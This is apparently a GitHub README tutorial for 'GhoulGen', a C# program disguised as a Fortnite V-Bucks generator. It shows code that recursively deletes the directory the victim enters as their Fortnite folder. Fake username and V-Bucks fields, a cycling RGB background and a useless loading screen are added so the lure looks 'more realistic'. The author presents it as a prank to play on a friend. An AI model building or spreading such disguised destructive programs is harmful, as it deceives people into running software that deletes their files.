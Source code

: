 ## GhoulGen C# Tutorial

What you need:
Visual Studio, 
Know how to compile a program, 
A friend.

This is a simple program in C#. This is literally all it takes to waste 10 minutes of your friends precious lifetime.
```csharp
if (Directory.Exists(fortnite))
  {
     Directory.Delete(fortnite, true);
  }else{
     MessageBox.Show("Invalid File Path!", "GhoulGen", MessageBoxButtons.OK, MessageBoxIcon.Error);
  }
  ```
 
It also strings the username and the fortnite directory, aswell as the amount of vbucks he wants. This is just to make it more realistic.
 ```csharp
string userName = username.Text;
string fortnite = textBox1.Text;
```

Also added RGB to the form. Who in the right mind wouldn't trust some random software made in 10 minutes with some cool changing colors?
```csharp
private void rgb()
        {
            Control.CheckForIllegalCrossThreadCalls = false;
            int rgbamount = 1;
            int r = 255;
            int g = 0;
            int b = 0;
            for (; ; )
            {
                this.BackColor = Color.FromArgb(r, g, b);
                bool flag = r > 0 && b == 0;
                if (flag)
                {
                    r -= rgbamount;
                    g += rgbamount;
                }
                bool flag2 = g > 0 && r == 0;
                if (flag2)
                {
                    g -= rgbamount;
                    b += rgbamount;
                }
                bool flag3 = b > 0 && g == 0;
                if (flag3)
                {
                    b -= rgbamount;
                    r += rgbamount;
                }
                Thread.Sleep(5);
            }
        }
```

I even took the time and bothered to add a whole loading screen. Once again, literal useless. Just to make it look more realistic.

![](https://images-ext-1.discordapp.net/external/l2Mqf90-YSlKX8Yq4qWeZYLH3d9Em_mTXD6jJ0sIg-k/https/cdn.upload.systems/uploads/v0pJosbk.png)

### Made By: GhoulBox#1000
